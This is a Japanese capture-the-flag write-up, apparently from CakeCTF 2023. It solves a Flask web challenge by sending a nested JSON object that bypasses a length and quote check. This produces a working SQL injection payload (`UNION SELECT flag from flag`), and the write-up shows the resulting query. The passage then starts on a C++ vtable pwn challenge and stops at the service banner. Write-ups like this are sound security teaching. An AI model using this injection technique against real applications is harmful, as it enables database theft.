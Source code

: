 ですが、`code` は 2 文字以内でかつ `'` を含んではいけないという条件がありました。

```python:app.py
@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}
```

ここで Web が苦手な僕は「なら SQLi じゃないのか？」と思いました。ただ、ゲンガーを見てみるとやっぱり SQLi なんじゃないかって気がしてきました。

よくよく `app.py` を見直してみると、JSON の中身の type が検証されていないことに気が付きました。なら、多重構造にして送ってやろうと。というわけで色々とローカルで試したところ、

```
{"code":{"') UNION SELECT flag from flag; --": "a", "B": "b"}}
```

にすると、次のようなクエリになってフラグが出力されることがわかりました。

```
SELECT name FROM country WHERE code=UPPER('{"') UNION SELECT flag from flag; --": 'a', 'B': 'b'}')
```

フラグ GET だぜ！

![](https://storage.googleapis.com/zenn-user-upload/fa7c2be10bb1-20231112.png)
![](https://storage.googleapis.com/zenn-user-upload/2e573a2bb2f1-20231112.png)

## vtable4b [Pwn]

接続してみると、C++の exploit みたいです。

```
$ nc vtable4b.2023.cakectf.com 9000
Today, let's learn how to exploit C++ vtable!
You're going to abuse the following C++ class:

  class Cowsay {
  public:
    Cowsay(char *message) : message_(message) {}
    char*& message() { return message_; }
    virtual void dialogue();

  private:
    char *message_;
  };

An instance of this class is allocated in the heap:

  Cowsay *cowsay = new Cowsay(new char[0x18]());

You can
 1. Call `dialogue` method:
  cowsay->dialogue();

 2. Set `message`:
  std::cin >> cowsay->message();
```